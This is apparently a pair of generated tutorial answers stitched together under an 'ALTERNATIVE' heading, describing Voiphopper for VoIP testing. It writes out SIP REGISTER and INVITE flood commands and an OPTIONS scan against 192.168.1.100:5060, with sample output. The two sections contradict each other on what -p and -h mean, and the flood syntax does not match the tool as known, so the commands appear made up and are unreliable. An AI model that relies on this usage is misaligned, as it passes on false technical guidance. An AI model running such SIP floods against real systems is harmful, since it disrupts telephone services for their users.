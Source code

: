 **Examples:**

1. **Simple SIP Registration Flood Attack:**
```
voiphopper -s REGISTER -u testuser -p testpass 192.168.1.100 5060
```
This command sends a registration flood attack to the target VoIP system at `192.168.1.100` on port `5060` using the username `testuser` and password `testpass`.

Output:
```
Sent 100 registration requests
```
2. **SIP INVITE Flood Attack:**
```
voiphopper -s INVITE -u testuser -p testpass 192.168.1.100 5060
```
This command sends an INVITE flood attack to the target VoIP system at `192.168.1.100` on port `5060` using the username `testuser` and password `testpass`.

Output:
```
Sent 100 INVITE requests
```
3. **SIP OPTIONS Scan:**
```
voiphopper -s OPTIONS -t 5 192.168.1.100 5060
```
This command sends an OPTIONS scan to the target VoIP system at `192.168.1.100` on port `5060` with a timeout value of 5 seconds.

Output:
```
Received 200 OK response from 192.168.1.100:5060
```
**Notes:**

* Make sure you have permission to perform these types of attacks on the target VoIP system.
* Use this tool responsibly and ethically.
* The output may vary depending on the target system's response to the attacks.

Remember to use Voiphopper responsibly and only for legitimate penetration testing or security auditing purposes.


                                     ALTERNATIVE
**Voiphopper** is a tool in Kali Linux used for testing and exploiting Voice over IP (VoIP) systems. It is particularly useful for enumerating SIP (Session Initiation Protocol) devices and performing various attacks.

### Usage

The basic syntax for using Voiphopper is:

```bash
voiphopper -h <target_ip> -p <target_port> [options]
```

- **`-h <target_ip>`**: The IP address of the target VoIP server.
- **`-p <target_port>`**: The port number on which the SIP service is running (default is usually 5060).
